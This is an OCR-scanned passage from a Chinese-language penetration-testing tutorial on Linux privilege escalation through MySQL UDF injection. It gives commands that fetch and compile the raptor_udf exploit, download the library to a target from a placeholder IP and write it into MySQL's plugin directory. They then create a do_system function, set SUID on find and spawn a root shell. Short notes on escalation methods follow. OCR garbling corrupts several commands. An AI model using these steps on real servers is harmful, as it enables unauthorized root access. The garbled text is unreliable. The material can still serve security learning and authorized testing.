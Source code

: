 ```
wget httpa://www.exploit-db.com/download/1518
mv 1518 raptor_udf.c
gcc -g -c raptor_udf.c
gcc -g -shared -o raptor_udf.so raptor_udf.o -lc
mv raptor_udf.so 1518.so
```

下载1518到目标服务器

```
wget https://xx.xx.xx.xx/ 1518.so
```

进入数据库进行UDF导出

```
use mysql;
create table foo(line blob) ;
insert into foo values (load_file('/tmp/1518.30')) ;
select中from foo into dumpfile
' /usr/lib/mysql/plugin/1518.so';
```

创建do_syatem函数调用

```
create function do_ system returns integer soname '1518.so';
select do_system('chmod u+s /usr/bin/ find') ;
```

#配合使用find调用执行

```
touch cuoni
find cuoni- exec "whoami" \;
find cuoni -exec "/bin/sh" \;
id
```

#案例4-Linux提权提升简单总结归类
1.提权环境，信息收集(SUID,定时任务,可能漏洞，第三方服务应用等)
2.最新相关漏洞要明确(关注点)，二次开发相关脚本学会展望(四个脚本)
3.本地searchaploit脚本及远程exploitdb站点搜索说明(简要使用)
4.其他提权方法如:密码复用，guid，sudo等说明(运气，同理，鸡肋等)
SUDO说明参考: https://www.freebuf.com/vu13/217089.html

## 数据库提权

在利用系统溢出漏洞无果的情况下，可以采用数据库进行提权，但需要知道数据库提权的前提条件:服务器开启数据库服务及获取到最高权限用户密码。除Access数据库外，其他数据库基本都存在数据库提权的可能。
#数据库应用提权在权限提升中的意义
#WEB或本地环境如何探针数据库应用
#数据库提权权限用户密码收集等方法
#目前数据库提权对应的技术及方法等

### #案例: MY SQL数据库提权演示-脚本&MSF
